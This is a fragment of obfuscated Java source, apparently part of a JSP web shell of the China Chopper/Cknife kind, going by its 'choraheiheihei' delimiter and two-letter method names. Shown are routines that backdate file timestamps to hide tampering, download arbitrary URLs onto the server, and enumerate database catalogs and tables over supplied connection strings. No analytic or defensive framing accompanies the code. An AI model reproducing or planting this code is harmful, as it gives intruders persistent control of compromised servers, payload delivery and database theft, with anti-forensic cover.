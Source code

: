      void KK(String s, String t) throws Exception {  
          File f = new File(s);  
        SimpleDateFormat fm = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss");  
          java.util.Date dt = fm.parse(t);  
       f.setLastModified(dt.getTime());  
       }  

      void LL(String s, String d) throws Exception {  
          URL u = new URL(s);  
          int n = 0;  
          FileOutputStream os = new FileOutputStream(d);  
           HttpURLConnection h = (HttpURLConnection) u.openConnection();  
           InputStream is = h.getInputStream();  
          byte[] b = new byte[512];  
          while ((n = is.read(b)) != -1) {  
             os.write(b, 0, n);  
          }  
          os.close();  
           is.close();  
        h.disconnect();  
      }  

      void MM(InputStream is, StringBuffer sb) throws Exception {  
           String l;  
           BufferedReader br = new BufferedReader(new InputStreamReader(is));  
          while ((l = br.readLine()) != null) {  
              sb.append(l + "\r\n");  
          }  
      }  

      void NN(String s, StringBuffer sb) throws Exception {  
          Connection c = GC(s);  
          ResultSet r = s.indexOf("jdbc:oracle")!=-1?c.getMetaData().getSchemas():c.getMetaData().getCatalogs();  
          while (r.next()) {  
               sb.append(r.getString(1) + "\t|\t\r\n");  
           }  
          r.close();  
           c.close();  
        }  

      void OO(String s, StringBuffer sb) throws Exception {  
       Connection c = GC(s);  
          String[] x = s.trim().split("choraheiheihei");  
         ResultSet r = c.getMetaData().getTables(null,s.indexOf("jdbc:oracle")!=-1?x.length>5?x[5]:x[4]:null, "%", new String[]{"TABLE"});  
          while (r.next()) {  
             sb.append(r.getString("TABLE_NAME") + "\t|\t\r\n");  
         }  
         r.close();  
       c.close();  
     }  
